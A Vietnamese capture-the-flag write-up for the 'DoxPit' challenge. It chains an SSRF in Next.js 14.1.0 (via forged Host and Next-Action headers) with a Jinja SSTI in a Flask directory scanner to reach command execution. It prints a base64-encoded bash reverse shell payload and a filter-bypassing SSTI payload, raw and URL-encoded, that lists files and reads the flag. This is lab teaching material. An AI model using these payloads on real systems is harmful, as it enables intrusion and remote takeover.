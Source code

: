 ## DoxPit
![image](../img/9.1.png)
![image](../img/9.2.png)
chỉ có `hall of fame` trả về nội dung, còn lại trả về `error`

mình view source code:
![image](../img/9.3.png)

mình phải đọc được file flag.txt, hoặc là LFI, hoặc là RCE,..

![image](../img/9.4.png)
tại `routes.py` có các route login,register,... mà trong khi đó ở trang index không có feature này, mình đã thử inject trong url rồi.

do đó mình sẽ chạy `python3 run.py` 
```
#run.py 

from application.app import app
from application.util.database import Database

if __name__ == "__main__":
    Database().migrate()
    app.run(host="0.0.0.0", port=3000, threaded=True, debug=False)
```
![image](../img/9.5.png)
truy cập vào port 3000
![image](../img/9.6.png)
khi mình đăng kí tài khoản thì được nhả về 1 token
![image](../img/9.7.png)
giao diện sau login
![image](../img/9.8.png)

có chức năng cho ta scan directory
![image](../img/9.9.png)
![image](../img/9.10.png)
nếu nhập vào các kí tự nằm trong `invalid_chars` thì sẽ trả về error
![image](../img/9.11.png)
### SSTI
hàm `scan_directory` nhận path từ người dùng, sau đó tìm đệ quy tất cả các file trong thư mục đó và so sánh hash các file đó có nằm trong backlist không, nếu không thì trả về đưa kết quả vào template sau đó render, ở đây mình xác định được nó bị dính lỗi SSTI

dựa vào /templates/index.html mình xác định được Flask dùng jinja template

```
#scanner.py

import hashlib, os, datetime

BLACKLIST_HASHES = {
    "9c91a1b8c4da2d7588f3aecd76cdee7dba24d95f0874f79fa711c0b0a490e273",
    "cce955a091518aefb9693ba4e103cdc31afc138c9eb9503984bf08f5f70eff46",
    "a016313bc090d337a66dcefc7cc18a889f5c1cfc721185fa9ad7038159efb728",
    "c6ec11a31d4c28480f4ee3cc744792e12d7919cfffff5b7ca86649c904b7abda",
    "170477195896fb9c6688d56d6d6a4c3d2021fbc7cf01b38d45eb86fe94016333",
    "dbd741a45d840d06d708339f9e9824f2a0d745ea6537ca44bff233ba7441bfda",
    "049f48024f31d86c5d8bf56c3da1d7be539c877ad189fb0c5aa9a228601d19eb",
    "90efa2e75e2102942fba13cb4a5744530cd85e84fcfc8d7ddccdc17081ac3f69",
    "3e17df6d4f4f9f321f783a50e1f8b364203f181274ff217b0c2a216dff63d41f",
    "98942a0affa9721c90b097c2c6a9cd02959185526c3b7a44377a25b252a16fff",
    "c6ec11a31d4c28480f4ee3cc744792e12d7919cfffff5b7ca86649c904b7abda"
}

def calculate_sha256(filepath):
    sha256_hash = hashlib.sha256()
    with open(filepath, "rb") as file:
        for byte_block in iter(lambda: file.read(4096), b""):
            sha256_hash.update(byte_block)
    return sha256_hash.hexdigest()


def scan_directory(directory):
    scan_results = []
    for root, dirs, files in os.walk(directory):
        for file in files:
            file_path = os.path.join(root, file)
            try:
                file_hash = calculate_sha256(file_path)
                if file_hash in BLACKLIST_HASHES:
                    scan_results.append(f"Malicious file detected: {file} ({file_hash})")
                else:
                    scan_results.append(f"File is safe: {file} ({file_hash})")
            except Exception as e:
                scan_results.append(f"Error scanning file {file}: {str(e)}")

    return {
        "date": datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S"),
        "scanned_directory": directory,
        "report": scan_results
    }
```
### SSRF
![image](../img/9.12.png)

như trong run.py mình thấy web chạy trên port 3000, do đó không thể truy cập trực tiếp. mình nghĩ tới SSRF để trigger SSTI. Qua quá trình racon mình phát hiện 
![image](../img/9.13.png)
ứng dụng sử dụng next.js 14.1.0, mình search vulnerability của nó 
![image](../img/9.14.png)
exploit bằng cách sửa `Host` và `Next-Action` trong req header

Next-Action có thể tìm thấy trong source web
![image](../img/9.15.png)


### Get FLAG
đầu tiên mình host lại 1 server redirect tới /register trigger lỗ hổng SSRF và lấy token để login
![image](../img/9.16.png)
thành công lấy `token = c253332b2c93c56429110d961f3f001c`
![image](../img/9.17.png)

tiếp theo là payload SSTI, mình tham khảo từ hacktrick

`{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}
`
vì có filter cho para `directory` nên mình cần sửa lại, lợi dụng `attr`, hàm này cho phép chúng ta lấy các thuộc tính mà không cần sử dụng dấu `.` . Do cũng không thể sử dụng \x nên việc encode hex là thừa thãi. 
Thay vào đó có thể sử dụng:
`request|attr(request.args.c) #Send a param like "?c=__class__`

sau khi tinh chỉnh payload mình có:
```
{%with a=((((request|attr('application'))|attr(request|attr("args")|attr("get")('globals')))|attr(request|attr("args")|attr("get")('getitem')))(request|attr("args")|attr("get")('builtins'))|attr(request|attr("args")|attr("get")('getitem')))(request|attr("args")|attr("get")('import'))('os')|attr('popen')(request|attr("args")|attr("get")('cmd'))|attr('read')()%}{%print(a)%}{%endwith%}&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=ls -l /
```
encode:
```
{%with%20a=((((request|attr(%27application%27))|attr(request|attr(%22args%22)|attr(%22get%22)(%27globals%27)))|attr(request|attr(%22args%22)|attr(%22get%22)(%27getitem%27)))(request|attr(%22args%22)|attr(%22get%22)(%27builtins%27))|attr(request|attr(%22args%22)|attr(%22get%22)(%27getitem%27)))(request|attr(%22args%22)|attr(%22get%22)(%27import%27))(%27os%27)|attr(%27popen%27)(request|attr(%22args%22)|attr(%22get%22)(%27cmd%27))|attr(%27read%27)()%}{%print(a)%}{%endwith%}&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=ls%20-l%20/
```

![image](../img/9.18.png)
![image](../img/9.19.png)

cat /flaga70608c6f3.txt
![image](../img/9.20.png)